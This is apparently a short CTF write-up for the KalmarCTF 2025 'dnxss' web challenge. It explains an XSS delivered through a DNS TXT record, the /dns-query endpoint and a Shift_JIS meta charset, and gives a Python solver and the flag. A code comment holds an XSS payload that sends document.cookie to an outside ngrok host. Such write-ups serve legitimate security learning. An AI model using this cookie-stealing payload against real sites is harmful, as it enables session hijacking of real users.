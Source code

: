 ```yaml
---
layout: post
title: dnxss - KalmarCTF 2025
date: 2025-03-10 08:46 -0400
---
```


[KalmarCTF](https://ctftime.org/event/2599)

# dnxss (web)
`Content-Type text/html` does all the heavy lifting as the flag says.
But its missing the encoding type. So you have to add that on a `<meta>` tag.
Then the problem becomes the payload size. The way I solved was by adding a TXT record to my domain, calling `/cache` and using the raw dns query endpoint `/dns-query`. 
Then I just try out every enconding until some worked `Shift_JIS`. + Code from chatgpt.

## Solution

```python
import requests
import base64
import struct
import random

# <meta charset="Shift_JIS"><img src='x' onerror='fetch("https://bfb7-2804-1b3-8146-9228-4020-8696-f77a-6594.ngrok-free.app/" + btoa(document.cookie))'>
def send_txt_query(domain):
    query_id = random.randint(0, 65535)

    query_id_bytes = struct.pack(">H", query_id)

    header = query_id_bytes + b"\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00"

    domain_parts = domain.split(".")
    question = (
        b"".join(bytes([len(part)]) + part.encode() for part in domain_parts) + b"\x00"
    )

    question_type_class = b"\x00\x10\x00\x01"

    query = header + question + question_type_class

    q = query
    q = base64.b64encode(q).decode().replace("=", "")

    requests.post(
        "https://dnxss.chal-kalmarc.tf:443/report",
        headers={"Content-Type": "application/json"},
        json={"url":f"http://proxy/dns-query?dns={q}"},
        proxies={
            'http': 'http://0.0.0.0:8080',
            'https': 'https://0.0.0.0:8080'
        }, verify=False
    )

send_txt_query("fouz.com.br")
```

## Flag
`kalmar{that_content_type_header_is_doing_some_heavy_lifting!_did_you_use_dns-query_or_resolve?}`

shafouz 2025/03/08
